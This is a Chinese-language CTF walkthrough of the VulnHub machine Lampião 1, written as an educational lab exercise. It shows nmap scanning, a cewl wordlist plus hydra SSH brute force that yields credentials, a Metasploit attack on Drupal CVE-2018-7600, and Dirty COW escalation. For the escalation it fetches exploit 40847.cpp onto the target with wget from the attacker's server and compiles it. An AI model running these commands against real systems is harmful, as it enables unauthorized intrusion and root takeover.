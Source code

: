 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/ytTSuL5HtdTXET2aGGX5Qg)

靶机地址：https://www.vulnhub.com/entry/lampiao-1,249/  

靶机难度：简单

靶机发布日期：2018 年 7 月 28 日

靶机描述：Would you like to keep hacking in your own lab?

Try this brand new vulnerable machine! "Lampião 1".

目标：得到 root 权限 & 找到 flag.txt

作者：** 大余 **

时间：2019-12-27

请注意：对于所有这些计算机，我已经使用 VMware 运行下载的计算机。我将使用 Kali Linux 作为解决该 CTF 的攻击者机器。这里使用的技术仅用于学习教育目的，如果列出的技术用于其他任何目标，我概不负责。

**一、信息收集**

我们在 VM 中需要确定攻击目标的 IP 地址，需要使用 nmap 获取目标 IP 地址：

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KNfj0IpbLWbGqfVvOxYpTh9Kiav3tSZictM0odeKIB9ibibFoNib0stuHwAFf39DSmibQZfkSpFLkRAG60Q/640?wx_fmt=png)

使用命令：nmap -sP 192.168.145.0/24

上一篇 GoldenEye-1 已经简单介绍了 netdiscover 的使用，个人比较喜欢用 nmap，这边就不介绍了。

我们开始探索机器。第一步是找出目标计算机上可用的开放端口和一些服务。因此我在目标计算机上启动了 nmap 全端口扫描：

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KNfj0IpbLWbGqfVvOxYpTh9CpbBeSr2XE1FWmqK48tibDM7gTgRrPk5paicHo90PqLiaFgyHc6jIfDBA/640?wx_fmt=png)

图中可以看出，目标计算机上有三个可用的开放端口 22、80、1898 端口。这里对 22 端口，尝试 ssh 弱口令爆破，并没有结果，这里就不多说 ssh 弱口令爆破了，基本上百度都能搜得到，使用 msf、hydra 等，后期文章攻击也会使用到。

由于目标计算机上的端口 80 可用，我们先来检查下 web 页面。我们在浏览器上打开了目标计算机的 IP，它显示了一个有趣的页面：

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KNfj0IpbLWbGqfVvOxYpTh9AHlicb9Z3wJjk0KQ3MJ4TMdx2Q7Dz3rr16MRPHx558nVcBcOEBe8Dnw/640?wx_fmt=png)

这是一个静态页面，我开始检查主页的 html 内容以获取任何有用的提示（F12 查看），nikto 扫了没什么发现，gobuster、dirb 和御剑扫目录，都没什么发现，半小时过去... 尴尬，并没有什么有用的信息.... 先暂时不管 80 端口了...

还有个 1898 端口开启状态，继续访问获取信息。

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KNfj0IpbLWbGqfVvOxYpTh98DX4LdIycH6YqaNEDnCcr2ndPhgBU5V73GbpYrsfich4wqI22a8IxcA/640?wx_fmt=png)

可以分别进入两个页面：

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KNfj0IpbLWbGqfVvOxYpTh9eShAP2ydddysMNu6ufb1tCF2v7ic5I9o3zmqcJrXUwNdTXyXOOiaPQmg/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KNfj0IpbLWbGqfVvOxYpTh9Rj3ohI23iabVUgcDniaHiaNrdr4QplMAtrj6WvM1y7M9FsT791X1Im1icw/640?wx_fmt=png)

第一栏点进去内容翻译后并没有什么有效的信息，第二栏点进去细心的我发现了这是 node/3，这是第三栏的内容，说明还有第二栏的内容没有显示，修改下页面试试。

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KNfj0IpbLWbGqfVvOxYpTh9fdZorC215ytMX0TYd2l3hQNOj5dqaK9bNA6Cu15ibdJia0d3Zar4qxsQ/640?wx_fmt=png)

audio.m4a

qrc.png

经过长时间终于有点有用的信息了... 访问试试

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KNfj0IpbLWbGqfVvOxYpTh92UtWia7b3Bnf3ibcHIbfVs6UFQibQu1KFrOCXdzhsPYcROpYXwLW8MCdg/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KNfj0IpbLWbGqfVvOxYpTh9u8U4589nCx0A8UcOcxibd2EfNmcbaibQp2KfbrgLBzLKTMleYCic0c5og/640?wx_fmt=png)

这里发现了一段语音和一个二维码，语音内容为：user tiago，则用户名为：tiago

二维码用微信扫描发现为一句话：Try harder！Muahuahua... 并没啥用

这边开始用工具对网站进行爆破扫描...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KNfj0IpbLWbGqfVvOxYpTh9biac5khUH4ldULlkYutTYH3UnIztXmZ5vqb9YE5UCVuFJpTibyVUJFZw/640?wx_fmt=png)

找到了一个 robots.txt 文件，后台打开看看

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KNfj0IpbLWbGqfVvOxYpTh99ujVcTGnL59Coic5eD1IicCmJEnFZa0NO7sBLxhia8FQvowqvgB7cJVhw/640?wx_fmt=png)

这里经过长时间收集信息，在 CHANGELOG.txt 文件，发现网站的版本信息：

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KNfj0IpbLWbGqfVvOxYpTh92D2OeqAJtrJTP4CFWAw9cVCKzY6J4x0rvJMa3HDvIHOmA7RHzFia9UQ/640?wx_fmt=png)

这是一个基于 Drupal 7 的博客或是社交网站。

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KNfj0IpbLWbGqfVvOxYpTh9XtkX08jru1fx2nn7pcgb7KaVSyGPQEiaT2x6SmRbNL4ay6VDKISkLQg/640?wx_fmt=png)

这边在页面没什么收获了，开始用工具进行暴力攻击。

cewl：通过爬行网站获取关键信息创建一个密码字典

hydra：神器九头蛇，网上有太多资料

使用命令：cewl http://192.168.145.148:1898/?q=node/1 -w dayu.txt

hydra -l tiago -P dayu.txt 192.168.145.148 ssh

先利用 cewl 来生成一份结合网站目标的社工性质的密码字典、不理解的可以搜索网上搜索 cewl 学习，然后九头蛇暴力破解得到用户密码：

用户: tiago  

密码: Virgulino

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KNfj0IpbLWbGqfVvOxYpTh9k87Ht1riac8kjvULv1QRpDKR4MiaeNiaqqD6dUMLGRGvUC1rsepLFFdBw/640?wx_fmt=png)

使用用户名 tiago 进行 ssh 登陆连接，成功连接，但是不能用 sudo su 进行提权！！

**二、提权 shell**

我们要针对收集到的信息进行提权。

这边收集到了版本是 2016 年的、Durpal 7。

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KNfj0IpbLWbGqfVvOxYpTh9nqynCUwIib6DrWicq4HNlYInPzZ4uvlqzAAm44qTiaMbbc3iaAv0zkiahyg/640?wx_fmt=png)

这边搜索到 Drupal 漏洞 CVE-2018-7600，我们尝试使用 MSF 进行渗透试试。

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KNfj0IpbLWbGqfVvOxYpTh9GPRKOLEicZRHlQhzLy17U6TT8GGaxaF9QrGAQEEFVEibe0R4LebUDNUQ/640?wx_fmt=png)

运行 msfconsole。

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KNfj0IpbLWbGqfVvOxYpTh9Hy7oBM45WV6TeEWCt3ibBqTQ7RCkXkTtRqr2fS5ABnCth4MUjCFh3uw/640?wx_fmt=png)

这是一种新渗透方法，先查询 durpal 在 MSF 中存在哪些漏洞，我们需要使用的是 2018 年的漏洞，use 选择 4 提取 CVE-2018-7600 漏洞，show option 查询渗透信息，需要填写 Rhosts 攻击 IP，Rport 攻击端口。

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KNfj0IpbLWbGqfVvOxYpTh9m1NYwicUiabkXB7Qeg8YjL1ibCT9MJUxqXwpOOb4u54esmJnmjU31CJ0A/640?wx_fmt=png)

成功通过漏洞渗透进入系统，获得低权限用户，和前面 ssh 登陆的 tiago 用户权限类似，这是另外一种渗透的方法，可以好好学习。

下一步要找到反弹 shell 获取 root 权限，通过网上对 Durpal 7 版本 2016 年都可以使用 dirty（脏牛）进行提权，非常有名的一个漏洞提权目前已经修复，仅供参考学习。

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KNfj0IpbLWbGqfVvOxYpTh97wYr5RiaAiacEZRSMxKKo2rO5pcVib9QgUI5OCdR9QwjIfJKyadS12DOQ/640?wx_fmt=png)

命令：searchsploit dirty 查找脏牛提权 shell，利用 40847.cpp

使用 CP 进行复制到本地，cp /usr/share/exploitdb/exploits/linux/local/40847.cpp ~

思路是继续开启本地 pthon 服务，然后把 40847.cp 发送到靶机上。

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KNfj0IpbLWbGqfVvOxYpTh9ErPxqrbFvCsvEArGkRken16Qia5iaicEhiadprDrPRjvddL2R2ev7j8JicQ/640?wx_fmt=png)

命令：python -m SimpleHTTPServer 5555   开启服务

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KNfj0IpbLWbGqfVvOxYpTh9c9n5q86ZzFjDfkUPoicqUHX7sjqI0WhNJJkbceWiaCXAIlnicfRibibvvhg/640?wx_fmt=png)

命令：wget http://192.168.182.135:5555/40847.cpp

将 40847.cp 上传到靶机上。

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KNfj0IpbLWbGqfVvOxYpTh97JE67qBy6yaPJ3XbZCkTaVQe6ymebTho03JocAYFJnX0Y0YXL7Um0g/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KNfj0IpbLWbGqfVvOxYpTh96WjTpNaInPGGZoOw1vEMjbQ1a8icTicicicicfunoZD0omKficRVBfibSt9XQ/640?wx_fmt=png)

命令：g++ -Wall -pedantic -O2 -std=c++11 -pthread -o 40847 40847.cpp -lutil

1. -Wall 一般使用该选项，允许发出 GCC 能够提供的所有有用的警告

2. -pedantic 允许发出 ANSI/ISO C 标准所列出的所有警告

3. -O2 编译器的优化选项的 4 个级别，-O0 表示没有优化,-O1 为缺省值，-O3 优化级别最高

4. -std=c++11 就是用按 C++2011 标准来编译的

5. -pthread 在 Linux 中要用到多线程时，需要链接 pthread 库

6. -o dcow gcc 生成的目标文件, 名字为 dcow

执行 gcc 编译可执行文件，可直接提权。

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KNfj0IpbLWbGqfVvOxYpTh9DLYWhDuN8yZEAxkibzHK26GdrfGQXFty2DE88SbOJdZSmZceuNaSJ8w/640?wx_fmt=png)

这个靶场还是学到了很多的东西，比如说如何一步一步进行渗透，

虽说与真实的环境相差甚远，但是最主要了还是用来锻炼自己的能力，

在本篇的实验中还是存在很多的不足的！还是要靠百度来进行一步一步的探索

主要还是自己的知识面太窄了，比如说这个脏牛提权，百度才知道...

看来以后还是要多扩大自己的知识面，前面的都还行，遇上一个实验差不多，

到了提权这一步就开始花里胡哨，自己就很懵比，就很难受！！！！

还是要多学习！！

由于我们已经成功得到 root 权限 & 找到 flag.txt，因此完成了简单靶机，希望你们喜欢这台机器，请继续关注大余后期会有更多具有挑战性的机器，一起练习学习。

如果你有其他的方法，欢迎留言。要是有写错了的地方，请你一定要告诉我。要是你觉得这篇博客写的还不错，欢迎分享给身边的人。

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KNfj0IpbLWbGqfVvOxYpTh9X7fkCq2IrE9gfRibnJcIrJdt4jqqBzE7fETAt04KwnUicTHzevo68RUA/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KNfj0IpbLWbGqfVvOxYpTh9Qlx9vpFoppCaw3zarZ1M4A25Qo47O3dfA5T3O8QVlmMMniaVTFZTO3w/640?wx_fmt=png)